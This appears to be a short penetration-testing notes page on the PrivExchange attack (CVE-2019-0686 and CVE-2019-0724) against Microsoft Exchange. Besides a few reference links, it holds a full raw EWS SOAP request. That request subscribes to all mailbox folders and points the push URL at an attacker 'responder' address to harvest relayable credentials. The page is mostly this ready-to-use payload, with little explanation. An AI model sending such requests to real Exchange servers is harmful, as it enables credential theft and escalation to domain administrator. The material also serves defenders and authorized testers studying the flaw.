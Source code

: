 ```yaml
---
title : "CVE-2019-0686"
# pre : ' '
description : "Abusing Exchange: One API call away from Domain Admin. (CVE-2019-0686 & CVE-2019-0724)"
date : 2021-02-03T13:28:29+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## PrivExchange - Abusing Exchange: One API call away from Domain Admin (CVE-2019-0686 & CVE-2019-0724)

[Abusing Exchange - One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
[Exploiting PrivExchange](https://chryzsh.github.io/exploiting-privexchange/)

## Examples

#### SOAP request creating subscription to mailbox

```plain
POST /ews HTTP/1.1
Host: exchange.example.com
Accept: */*
Accept-Language: nl-nl
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=UTF-8
Content-Length: 934
Connection: close
Referer: https://exchange.example.com/ews
User-Agent: iPhone/11.1

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:t="http://schemas.microsoft.com/exchange/services/2006/types" xmlns:m="http://schemas.microsoft.com/exchange/services/2006/messages">
    <soap:Header>
        <t:RequestServerVersion Version="Exchange2013" />
    </soap:Header>
    <soap:Body>
        <m:Subscribe>
            <m:PushSubscriptionRequest SubscribeToAllFolders="true">
                <t:EventTypes>
                    <t:EventType>NewMailEvent</t:EventType>
                    <t:EventType>ModifiedEvent</t:EventType>
                    <t:EventType>MovedEvent</t:EventType>
                </t:EventTypes>
                <t:StatusFrequency>1</t:StatusFrequency>
                <t:URL>http://<responder-IP-adres/gibcredsplz_2013_4/</t:URL>
            </m:PushSubscriptionRequest>
        </m:Subscribe>
    </soap:Body>
</soap:Envelope>
```

## URL List

* [Github.com - DirkjanM - PrivExchange](https://github.com/dirkjanm/PrivExchange)
* [Abusing Exchange - One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
* [Chryzsh.github.io - Exploiting PrivExchange](https://chryzsh.github.io/exploiting-privexchange/)
